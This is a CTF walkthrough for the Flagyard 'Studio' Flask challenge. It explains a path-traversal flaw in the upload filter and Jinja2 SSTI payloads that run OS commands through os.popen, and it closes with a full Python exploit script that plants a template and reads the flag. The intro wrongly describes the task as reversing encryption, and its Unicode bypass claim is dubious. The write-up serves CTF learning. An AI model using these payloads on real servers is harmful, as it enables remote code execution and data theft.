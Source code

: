 # Studio - Flagyard CTF Walkthrough

This is a walkthrough for solving the **Studio** challenge from the **Flagyard CTF**. The challenge involves reversing a custom encryption process to retrieve the original input that satisfies the conditions.

## Challenge Description

What issues can arise with certain types of music?

```python
import os
from flask import Flask, render_template, request, redirect, url_for, flash, send_from_directory
from werkzeug.exceptions import RequestEntityTooLarge

app = Flask(__name__)
app.config['TEMPLATES_AUTO_RELOAD'] = True
app.config['UPLOAD_FOLDER'] = './music_files/'  # /app/music_files/
app.config['MAX_CONTENT_LENGTH'] = 1 * 1024 * 1024
app.config['SECRET_KEY'] = os.environ.get('SECRET_KEY') or '4cf129f6c1e7d7a7a96d944b78a935ac'

@app.route('/')
def home():
    page = request.args.get('page')
    try:
        return render_template('home.html', page=f'{page}.html')
    except:
        return render_template('home.html')

@app.route('/music')
def music():
    music_files = filter(lambda f: f.endswith('.mp3'), os.listdir(app.config['UPLOAD_FOLDER']))
    return render_template('music.html', music_files=music_files)

@app.route('/upload', methods=['POST'])
def upload():
    def safe_filename(file):
        if '../' in file:
            return safe_filename(file.replace('../', ''))
        return file
    try:
        music_file = request.files.get('music_file')
        dst_file = safe_filename(music_file.filename)
        if music_file and dst_file.split('.')[1] == 'mp3':
            flash('File uploaded')
            music_file.save(os.path.join(app.config['UPLOAD_FOLDER'], dst_file))
        else:
            flash('File blocked')
    except RequestEntityTooLarge:
        flash('File is too large')
    return redirect(url_for('music'))

@app.route('/download')
def download():
    music_file = request.args.get('music_file')
    if music_file:
        return send_from_directory(app.config['UPLOAD_FOLDER'], music_file, as_attachment=True)
    return redirect(url_for('home'))
```

We are provided with the server-side code of this web application. Let’s analyze the code to identify vulnerabilities and determine how to exploit them.

---

## /Route
```python
@app.route('/')
def home():
    page = request.args.get('page')
    try:
        return render_template('home.html', page=f'{page}.html')
    except:
        return render_template('home.html')
```

The / endpoint takes a page parameter from the URL and appends .html to it. If a file with that name exists in the templates folder, it renders that page. Otherwise, it defaults to rendering home.html. This behavior is key to exploiting the vulnerability, as we will see later.

---

## **/Music** Route

```python
@app.route('/music')
def music():
    music_files = filter(lambda f: f.endswith('.mp3'), os.listdir(app.config['UPLOAD_FOLDER']))
    return render_template('music.html', music_files=music_files)
```
The /music endpoint displays only files ending with .mp3 on the music.html page. It filters the list of files in the upload folder and passes only those with the .mp3 extension to the template.

---

## /upload Route
Now, let’s dive into the interesting part of the code.
```python
@app.route('/upload', methods=['POST'])
def upload():
    def safe_filename(file):
        if '../' in file:
            return safe_filename(file.replace('../', ''))
        return file
    try:
        music_file = request.files.get('music_file')
        dst_file = safe_filename(music_file.filename)
        if music_file and dst_file.split('.')[1] == 'mp3':
            flash('File uploaded')
            music_file.save(os.path.join(app.config['UPLOAD_FOLDER'], dst_file))
        else:
            flash('File blocked')
    except RequestEntityTooLarge:
        flash('File is too large')
    return redirect(url_for('music'))
```
The /upload endpoint handles the upload of a music_file provided by the user. The uploaded file's name is passed to the safe_filename() function to sanitize it.
```python
def safe_filename(file):
    if '../' in file:
        return safe_filename(file.replace('../', ''))
    return file
```
The safe_filename() function recursively checks for ../ in the filename and removes it if found. This aims to prevent directory traversal, but it's not effective. This can be bypassed using Unicode representations like \u002e\, which stands for ..

After sanitizing the filename, the code checks if the file extension is mp3. It does this by splitting the filename on the . character and checking whether the string after the first . is mp3. However, this method is flawed and can be bypassed with filenames like bypassed.mp3.php, where .mp3 is just a misleading part of the filename. This superficial check does not fully validate the actual file type.

If the file passes the extension check, the following line of code saves it:
```python
music_file.save(os.path.join(app.config['UPLOAD_FOLDER'], dst_file))
```
The os.path.join() function joins the upload folder with the filename, creating the final upload path. In this application, app.config['UPLOAD_FOLDER'] is set to ./music_files/, which means that if the sanitized filename is malicious.mp3, the final save path would be ./music_files/malicious.mp3.

However, the main vulnerability lies here: os.path.join() is susceptible to path traversal attacks because there is no validation to ensure that the final path remains within the intended music_files directory. For example, if a malicious filename like ../../evil.mp3 is provided and not sanitized adequately, it could allow the file to be saved outside of the intended folder, potentially overwriting critical files or saving in unauthorized locations.

In summary, the vulnerability arises due to incomplete sanitization and the lack of final path validation, making the endpoint susceptible to path traversal attacks. We can exploit this to save files in unintended directories, gaining unauthorized control over the file structure.

---

# Exploitation

To achieve Remote Code Execution (RCE) and retrieve the flag, one approach is to upload an HTML file to the templates directory (/app/templates) and achieve Server-Side Template Injection (SSTI) using it. Let’s begin the exploitation process.

There are two ways to solve this:

    Relative Path Method

    Absolute Path Method
### Relative Path Method

For the relative path method, we need ../ in our filename to reach the templates folder. However, since ../ is being filtered, we can bypass this restriction by using the Unicode representation for . (\u002e). Thus, our filename would be \u002e\u002e/templates/malicious.mp3.html, which is equivalent to ../templates/malicious.mp3.html. This allows us to navigate one directory back to where the templates folder is located, then move into the templates folder and save malicious.mp3.html there.

### Absolute Path Method

This method is simpler because we don’t need to bypass the ../ filter. We can simply provide the absolute path, which is /app/templates/malicious.mp3.html. The os.path.join() function will save it to the absolute path, effectively ignoring app.config['UPLOAD_FOLDER'] because an absolute path takes precedence over a relative path.

## SSTI Exploit

To exploit the SSTI vulnerability, we need a simple HTML file that can trigger SSTI when rendered. Below is a straightforward HTML file for this purpose:
```html
<html>
<head>
    <title>SSTI Exploit</title>
</head>
<body>
    <h1>Triggering SSTI</h1>
    <textarea type="text" id="page" name="page">{{7*7}}</textarea>
</body>
</html>
```
In this file, our SSTI payload is placed in the <textarea> element. This will evaluate the expression {{7*7}} if SSTI is present, allowing us to confirm that the vulnerability works.

The file is uploaded, but how do we access it? We can only see the output if malicious.mp3.html is rendered. This is where the following line of code comes in handy:
```python
render_template('home.html', page=f'{page}.html')
```
We can render our malicious.mp3.html by passing the page parameter like this:
```
http://your-instance-url/?page=malicious.mp3
```

This will render our HTML, and the result of 7*7 (which is 49) will be displayed in the <textarea> field, confirming that SSTI is successfully triggered.

---

## Final Payload for SSTI

Our final payload for SSTI will be:
```html
{{config.__class__.__init__.__globals__['os'].popen('ls -l /app').read()}}
```

This payload will achieve Remote Code Execution (RCE) using SSTI.

To execute this, simply replace the value and re-upload the file. Here is how the updated HTML file looks:
```html
<html>
<head>
    <title>SSTI Exploit</title>
</head>
<body>
    <h1>Triggering SSTI</h1>
    <textarea type="text" id="page" name="page">{{config.__class__.__init__.__globals__['os'].popen('ls -la').read()}}</textarea>
</body>
</html>
```

After uploading, access the payload by visiting:

```
http://your-instance-url/?page=malicious.mp3
```

This will render the updated HTML and execute the command, showing the output of ls -la in the <textarea> field, thus achieving RCE.

---

## Python Automated Script

I wrote a Python script to automate the entire process for retrieving the flag.
```python
import requests
import os
from urllib.parse import urlencode
from urllib.parse import urlparse
from bs4 import BeautifulSoup

url = "your-instance-url/"  # Add "/" at the end of the URL

def upload_file():
    parsed_url = urlparse(url)
    hostname = parsed_url.netloc

    headers = {
        'Host': hostname,
        'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryu1i8nw4tZ1Hi1EN7',
        'Connection': 'keep-alive',
    }

    data = '''------WebKitFormBoundaryu1i8nw4tZ1Hi1EN7\r\nContent-Disposition: form-data; name="music_file"; filename="/app/templates/malicious.mp3.html"\r\nContent-Type: text/html\r\n\r\n<html>
    <head>
        <title>SSTI Exploit</title>
    </head>
    <body>
        <h1>Triggering SSTI</h1>
        <form action="/" method="get">
            <input type="text" id="page" name="page" value="{{config.__class__.__init__.__globals__['os'].popen('cat $(find / -name flag.txt 2>/dev/null)').read()}}">
            <button type="submit">Submit</button>
        </form>
        <p id="output"></p>
    </body>
</html>\r\n------WebKitFormBoundaryu1i8nw4tZ1Hi1EN7--\r\n'''

    upload_url = f"{url}upload"
    response = requests.post(upload_url, headers=headers, data=data, verify=False)

    if "File uploaded" in response.text:
        print("[*] File uploaded successfully.")
    else:
        print("[*] Upload failed.")
        print(response.text)

def access_payload():
    access_url = f"{url}?page=malicious.mp3"
    response = requests.get(access_url)

    if response.status_code == 200:
        print("[*] Payload executed successfully.")

        soup = BeautifulSoup(response.text, 'html.parser')
        input_tag = soup.find('input', {'id': 'page'})

        if input_tag and input_tag.has_attr('value'):
            output = input_tag['value'].strip()

            if output:
                print(f"[*] Flag: {output}")
            else:
                print("Extracted value from input tag is empty.")
        else:
            print("Failed to locate the input element in the response.")
    else:
        print("Failed to execute payload.")

if __name__ == "__main__":
    upload_file()
    access_payload()

```
This script automates the process of uploading the malicious file, triggering the SSTI vulnerability, and retrieving the flag. Let me know if you need further assistance!

---
### Contact me: 

<a href="https://www.instagram.com/t2tt/" style="color: white; text-decoration: none;">
  <img src="https://upload.wikimedia.org/wikipedia/commons/9/95/Instagram_logo_2022.svg" alt="Instagram" width="30" />
</a>


